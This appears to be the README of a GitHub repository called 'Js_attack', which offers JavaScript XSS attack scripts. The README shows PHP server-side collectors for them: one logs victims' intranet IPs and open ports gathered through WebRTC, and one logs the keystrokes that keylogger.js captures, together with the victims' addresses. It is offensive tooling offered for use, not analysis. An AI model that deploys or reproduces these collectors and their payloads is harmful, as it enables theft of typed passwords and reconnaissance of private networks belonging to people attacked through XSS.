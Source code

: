 # Js_attack - some .js with xss to attack

![languages](https://img.shields.io/github/languages/top/imanfeng/Js_attack.svg)

Usage example
------------------

1.Get-Intranet-ip.js & Scan-Intranet-port.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

2.keylogger.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");

if(!empty($_GET['c'])) {
	$key = $_GET['c']; 
	file_put_contents('./keylogger.txt', $key.' | '.$time.' | '.$from."\r\n", FILE_APPEND);
}
?>

```
